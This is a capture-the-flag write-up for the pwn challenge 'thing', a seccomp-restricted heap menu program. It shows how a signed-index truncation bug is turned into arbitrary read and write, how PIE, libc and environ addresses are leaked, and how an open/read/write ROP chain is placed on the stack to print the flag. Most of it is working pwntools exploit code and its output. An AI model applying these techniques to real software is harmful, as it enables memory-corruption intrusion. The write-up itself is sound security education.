


# pwn / :fire: thing :fire:

by *StateOfLimbo* for *coldboots*

---

## Challenge description

Pwn / :fire: thing :fire:    (2 solves / 494 points)

nordbo

This is a thing

nc io.ept.gg 30002

---

This is indeed a thing. A Fire challenge released at the OnSite EPT CTF Event, with special prices for first blood! Pressure is on!


Untar the provided archive:
```
thing-handout/
thing-handout/thing
thing-handout/libc-2.35.so
thing-handout/ynetd
thing-handout/Dockerfile
```

## Analysis

Reading the Dockerfile, we can see that this is running remotely on ubuntu:22.04 with libc-2.35. Flag is in /opt/flag



Checksec is all green. Could this be another / more advanced heap challenge? Let's decompile with Ghidra:

```c
undefined8 main(void)
{
  disableSyscalls();
  do {
    printMenu();
    int choice = readNum("> ");
    switch(choice) {
        default: puts("out of range."); return 0;
        case 1: create(); break;
        case 2: edit(); break;
        case 3: delete(); break;
        case 4: view(); break;
        case 5: exit(1);
    }
  } while( true );
}

void disableSyscalls(void)
{
  scmp_filter_ctx ctx = seccomp_init(0x7fff0000);
  seccomp_rule_add(ctx,0,322,0);
  seccomp_rule_add(ctx,0,59,0);
  seccomp_rule_add(ctx,0,57,0);
  seccomp_rule_add(ctx,0,58,0);
  seccomp_load(ctx);
  return;
}

void printMenu(void)
{
  puts("1. Create new thing");
  puts("2. Edit thing");
  puts("3. Delete thing");
  puts("4. Print thing");
  puts("5. Exit");
  return;
}
```

This looks like a heap challenge. you have the typical menu with create, edit, delete and view. Also some syscalls are disabled by seccomp rules.

### Seccomp

We can use seccomp-tools to parse the rules and see which syscalls are allowed and/or denied.

```
$ seccomp-tools dump ./thing
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x04 0x00 0x00000039  if (A == fork) goto 0010
 0006: 0x15 0x03 0x00 0x0000003a  if (A == vfork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0010
 0008: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Fork, vfork, execve and execveat syscalls are forbidden. This means that we can not pop a shell by doing e.g `system("/bin/sh")` or any other use of exec or fork syscalls. We'll have to keep this in mind when constructing our exploit.

### Heap functions

Let's check out the heap functions next. Create, Edit, Delete and View:

```c
void create(void)
{
  int idx = getIdx();
  void* mem = malloc(0x10);
  *(listOfThings + idx * 8) = mem;
}

void edit(void)
{
  int idx = getIdx();
  if (*(listOfThings + idx * 8) == 0)
    puts("index does not exist.");
  else {
    printf("%s","value: ");
    fgets(*(listOfThings + idx * 8),0x10,stdin);
  }
}

void delete(void)
{
  int idx = getIdx();
  if (*(listOfThings + idx * 8) == 0)
    puts("index does not exist.");
  else {
    free(*(listOfThings + idx * 8));
    *(listOfThings + idx * 8) = 0;
  }
}

void view(void)
{
  int idx = getIdx();
  if (*(listOfThings + idx * 8) == 0)
    puts("index does not exist.");
  else
    puts(*(listOfThings + idx * 8));
}

```

Let's sum up our heap constraints and vulnerabilities.
* We can only allocate buffers of size 0x10.
* The pointers are stored in a global array by index.
* There is no overflow in the edit function.
* Delete resets the pointer to zero, so there's no use after free.

There's no obvious heap related vulnerability to exploit so far.

### The Index

We check the getIdx function next to see what indexes we have to work with.

```c
int getIdx(void)
{
  int idx = readNum("index: ");
  if (111 < idx) {
    puts("out of range.");
    idx = 0;
  }
  return idx;
}

ulong readNum(long prompt)
{
  char *ret;
  char buff24 [24];
  
  if (prompt != 0) { printf("%s",prompt); }
  char* ret = fgets(buff24,15,stdin);
  if (ret == 0x0) { exit(-1); }
  ret = strchr(buff24,L'-');
  if (ret != 0x0) {
    puts("out of range.");
    exit(1);
  }
  return strtoull(buff24,0,0);
}
```
These functions have a couple of bugs
* getIdx does not check for negative indexes.
* getIdx truncates the 64bit unsigned result of readNum into a 32bit signed integer
* readNum does check for negative numbers by checking the input string for a minus sign
* However due to the truncated call to readNum, any number larger than `0x7fffffff` will be treated as a negative number in getIdx.

## Moving backwards

By using negative indexes we can "underflow" the array and access memory in lower addresses than we are supposed to. We can use the menu functions to manipulate and view data in this memory, and memory that it points to.

Let's create a solve script and get going analysing the memory below `listOfThings` in gdb.

```
pwn template --quiet --host=io.ept.gg --port=30002 ./thing > solve.py
```

Run with GDB and No address randomisation:
```
./solve LOCAL DEBUG GDB NOASLR
```


Looking at the writable part of memory we have some interesting options within reach; Pointers to stdout, stdin and stderr. These contain buffers and vtables which can be exploited to possibly leak variables, and read or write memory. But being constrained to only 0x10 byte writes, this seems a little hard core.

However we also have a nice little pointer @ `0x555555558008` which points to itself, and a couple of unused bytes before and after. Perfect for reading and writing 8-16 bytes!

We will try to first leak the value, and make a write primitive around it. This will open further paths of exploitation. But first let's set up a couple of utility functions in our solve script:

```python
# Be able to send an overflowed negative index.
def SendIndex(x):
    io.sendlineafter(b'index: ', str(0x100000000+x).encode())

def Write(Index, Value):
    io.sendlineafter(b'> ', b'2')
    SendIndex(Index)
    if (len(Value) == 0x10):
        io.sendafter(b'value: ', Value[:0x0f])
    else:
        io.sendlineafter(b'value: ', Value)

def View(Index):
    io.sendlineafter(b'> ', b'4')
    SendIndex(Index)

# View value at index - then extract the output
def LeakAdr(Index):
    View(Index)
    leek = u64(io.recvline().strip().ljust(8, b'\0'))
    return leek
```

With these in place, we can try to leak the first pointer. We can also use this to calculate the PIE base. Counting backwards we find the pointer at index -11.

```python
leek = LeakAdr(-11)
exe.address = leek - 0x4008
log.info(f"leek: {hex(leek)}")
log.info(f"exe: {hex(exe.address)}")
```

Output:
```
[*] leek: 0x555555558008
[*] exe: 0x555555554000
```

It worked! Since we can write 16 bytes, we can also write to the next reachable index which is `-10`, but make sure to write the 0x555555558008 address over itself to not lose access to this part of memory through index `-11` 

We can write generic functions for both arbitrary read and write this way.
```python
def WriteAdr(Where, What):
    Write(-11, p64(leek)+p64(Where))    
    Write(-10, What)
    
def ReadAdr(Where):
    Write(-11, p64(leek)+p64(Where))    
    View(-10)
    return u64(io.recvline().strip().ljust(8, b'\0'))
```


## Reading libc - environ - stack

With the help of these functions we can now read the `environ` variable from libc. This special variable in libc identifies the stack area, enabling us to find the return pointer of main where we can write a ROP-chain.

First we read the libc-base by leaking puts, then we get environ and access the stack.

```python
puts = ReadAdr(exe.got['puts'])
libc.address = puts - libc.sym.puts
log.info(f"libc @ {hex(libc.address)}")

environ = ReadAdr(libc.sym.environ)
log.info(f"environ @ {hex(environ)}")
```

Output:
```
[*] libc @ 0x7ffff7d6f000
[*] environ @ 0x7fffffffe678
```



printing the stack of main() in GDB we can calculate the distance from `environ` to the return pointer.

`0x7fffffffe678 - 0x7fffffffe558 = 0x120`


## The ROP chain

Since we can't pop a shell with `execve` or `system`, we have to find another way to get to the flag. Luckily we know the path of the flag from the Dockerfile. This enables us to use File and IO functions in libc to read the flag.

* First we write the `flagpath` to a memory location.
* Then call `open()` with the flagpath
* This returns a file descriptor which we in this case can guess.

The operating system already opens File descriptors 0, 1 and 2 as stdin, stdout and stderr. Since the program haven't opened any other files we an be quite certain that the next file descriptor is 3.

* Next we can `read()` from this file descriptor into memory.
* Then we `write()` this memory buffer out to `stdout` to print the flag!

pwntools makes it straight forward to write a rop chain for this purpose, as it can handle both open, read and write.

```python
flagpath = leek+0x200
flagbuffer = leek+0x210
WriteAdr(flagpath, b'/opt/flag\0')
rop = ROP(libc)
rop.open(flagpath, 0)
rop.read(3, flagbuffer, 128)
rop.write(1, flagbuffer, 128)
```

The actual rop-chain that is generated is far more complex in itself and can be a nice challenge to try to do by hand. 

Here is the output of rop.dump():

```
0x0000:   0x7fa9aa5fee51 pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7fa9aa5fd3e5 pop rdi; ret
0x0018:   0x5626a21b2208 [arg0] rdi = 94723928433160
0x0020:   0x7fa9aa6e7690 open
0x0028:   0x7fa9aa6f2497 pop rdx; pop r12; ret
0x0030:             0x80 [arg2] rdx = 128
0x0038:      b'oaaapaaa' <pad r12>
0x0040:   0x7fa9aa5fee51 pop rsi; ret
0x0048:   0x5626a21b2218 [arg1] rsi = 94723928433176
0x0050:   0x7fa9aa5fd3e5 pop rdi; ret
0x0058:              0x3 [arg0] rdi = 3
0x0060:   0x7fa9aa6e7980 read
0x0068:   0x7fa9aa6f2497 pop rdx; pop r12; ret
0x0070:             0x80 [arg2] rdx = 128
0x0078:      b'faabgaab' <pad r12>
0x0080:   0x7fa9aa5fee51 pop rsi; ret
0x0088:   0x5626a21b2218 [arg1] rsi = 94723928433176
0x0090:   0x7fa9aa5fd3e5 pop rdi; ret
0x0098:              0x1 [arg0] rdi = 1
0x00a0:   0x7fa9aa6e7a20 write

``` 

## Write to the stack

Finally we can write the ROP chain to the stack, starting at the return pointer of main, and send an illegal menu option to return the function:

```python
payload = bytes(rop.chain())

for IDX,WAT in enumerate([ payload[i:i+16] for i in range(0,len(payload),16) ]):
    WriteAdr(environ - 0x120 + 16*IDX, WAT)

io.sendlineafter(b'> ', b'666');
```

Running it on the remote instance gives us som nice output:
```
[+] Opening connection to io.ept.gg on port 30002: Done
[*] leek: 0x55ebae805008
[*] exe: 0x55ebae801000
[*] libc @ 0x7f5a72bb1000
[*] envi @ 0x7fffb1069428
[*] Loaded 218 cached gadgets for './libc-2.35.so'
[*] Switching to interactive mode
out of range.
EPT{fake_h3ap_challs_4r3_b3st_h3ap_challs}
``` 

Fake heap challs are indeed the best heap challs!

This challenge was released at 10:00, and flag submitted at 11:47 for :fire: First Blood! :fire: 


